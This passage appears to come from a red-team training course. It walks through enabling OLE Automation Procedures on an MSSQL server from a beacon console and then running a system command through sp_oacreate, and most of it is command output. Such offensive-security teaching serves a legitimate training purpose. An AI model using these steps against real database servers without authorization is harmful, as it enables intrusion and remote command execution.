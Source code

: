 Check that OLE Automation is enabled.

```batch
beacon> sql-query lon-db-1 "SELECT name,value FROM sys.configurations WHERE name = 'Ole Automation Procedures'"

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Executing custom query on lon-db-1

name | value | 
---------------
Ole Automation Procedures | 0 | 

[*] Disconnecting from server
```

And enable it using the `sql-enableole` command.

```batch
beacon> sql-enableole lon-db-1

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Toggling Ole Automation Procedures on lon-db-1...

name | value_in_use | 
----------------------
Ole Automation Procedures | 1 | 

[*] Disconnecting from server
```

Then use `sql-olecmd` to run a command.  As previously stated, OLE cannot return output like xp\_cmdshell can, so it's "limited" to executing one-liners.

```batch
beacon> sql-olecmd lon-db-1 "cmd /c calc"

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] OLE Automation Procedures is enabled
[*] Executing system command...

[*] Setting sp_oacreate to "lfdfjzuv"
[*] Setting sp_oamethod to "enijbgqg"
[*] Command executed
[*] Destoryed "lfdfjzuv" and "enijbgqg"

[*] Disconnecting from server
```

\


<figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/8eec3a6b4f0dbe11a7b66c583e2ff819.png" alt="" width="100%"><figcaption></figcaption></figure>

